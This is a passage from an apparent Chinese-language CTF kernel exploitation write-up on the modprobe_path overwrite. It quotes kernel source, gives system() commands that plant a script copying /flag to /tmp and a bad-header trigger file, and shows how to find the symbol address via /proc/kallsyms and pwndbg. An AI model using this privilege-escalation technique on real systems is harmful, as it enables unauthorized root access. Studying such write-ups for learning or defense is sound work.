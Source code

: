 ```
    max_modprobes = min(max_threads/2, MAX_KMOD_CONCURRENT);    
    atomic_inc(&amp;kmod_concurrent); 
    if (atomic_read(&amp;kmod_concurrent) &gt; max_modprobes) `{` 
        /* We may be blaming an innocent here, but unlikely */ 
        if (kmod_loop_msg++ &lt; 5) 
            printk(KERN_ERR 
                   "request_module: runaway loop modprobe %s\n", 
                   module_name); 
        atomic_dec(&amp;kmod_concurrent);                           
        return -ENOMEM;                                         
    `}` 
    ret = call_usermodehelper(modprobe_path, argv, envp,        // 执行用户空间的应用程序
            wait ? UMH_WAIT_PROC : UMH_WAIT_EXEC); 
    atomic_dec(&amp;kmod_concurrent);                                
    return ret; 
`}`
```

接着查看 `call_usermodehelper`函数源码，该函数用于在内核空间中执行用户空间的程序，并且该程序具有`root`权限。这也保证了我们自己所写的 `sh`文件在被执行时，能执行具有`root`权限的功能，实现提权。

```
call_usermodehelper(char *path, char **argv, char **envp, enum umh_wait wait);
enum umh_wait `{`
    UMH_NO_WAIT = -1,       /* don't wait at all */
    UMH_WAIT_EXEC = 0,      /* wait for the exec, but not the process */
    UMH_WAIT_PROC = 1,      /* wait for the process to complete */
 `}`;
```

代码如下所示：

```
system("echo -ne '#!/bin/sh\n/bin/cp /flag /tmp/flag\n/bin/chmod 777 /tmp/flag' &gt; /tmp/getflag.sh");
system("chmod +x /tmp/getflag.sh");
system("echo -ne '\\xff\\xff\\xff\\xff' &gt; /tmp/fl");
system("chmod +x /tmp/fl");

//changed modprobe_path
system("/tmp/fl")
```
1. 首先创建了一个我们自己的 sh文件 geflag.sh，用于 将 /flag拷贝到 /tmp/flag下，并赋予 /tmp/flag为可读可写可执行权限。然后赋予 /tmp/getflag.sh可执行权限。
1. 随后创建了一个错误格式头的文件 /tmp/fl，并赋予其可执行权限
1. 当我们覆写了 modprobe_path为 /tmp/getflag.sh后，调用 system(“/tmp/fl”)触发错误，随后就能以root权限执行 /tmp/getflag.sh，完成将原本只能 root可读的flag拷贝到 /tmp目录下，并赋予可读权限
此外，我们该如何确定 `modprobe_path`符号的存储地址呢？在内核题目中，通常使用 `cat /proc/kallsyms`来获取符号地址，但是 `modprobe_path`并不在其中。这里我们可以考虑查找引用了`modprobe_path`符号的地址，来获取其地址。而在上面 `__request_module`代码中，即引用了 `modprobe_path`的地址。所以我们可以通过以下方法找到 `modprobe_path`地址：
- 先通过 /proc/kallsyms找到 __request_module地址
- 随后查看 __reques_module函数汇编，找到 modprobe_path的引用
```
/ # cat /proc/kallsyms | grep __request     
ffffffffbb2aad00 T __request_module         
ffffffffbb1afdb8 t __request_module.cold    
ffffffffba886e60 T __request_percpu_irq     
ffffffffbb2baa30 T __request_region         
ffffffffbaee47fc t __request_region.cold    
ffffffffba8aa2b0 t __request_resource       

pwndbg&gt; x/28i 0xffffffffbb2aad00
   0xffffffffbb2aad00:  push   rbp
   0xffffffffbb2aad01:  mov    rbp,rsp
   0xffffffffbb2aad04:  push   r14
   0xffffffffbb2aad06:  push   r13
```